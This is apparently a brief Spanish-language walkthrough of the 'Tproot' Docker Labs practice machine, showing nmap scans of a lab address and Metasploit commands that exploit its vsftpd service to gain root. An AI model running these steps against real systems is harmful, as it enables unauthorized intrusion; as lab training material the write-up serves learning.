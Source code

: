 # Tproot

Dificultad: Muy Facil
Tecnicas: Searchsploit - msfconsole
Pagina: Docker labs
Estado: Listo

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport
```

![image.png](image.png)

```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p21,80 -sCV -oN targeted 172.17.0.2
```

![image.png](image%201.png)

```
Vamos a usar msfconsole y searchsploit 

search vsftp
use 1
show options
set RHOSTS $ipvictima
run
```

![image.png](image%202.png)

![image.png](image%203.png)

![image.png](image%204.png)

```bash
Somos root

```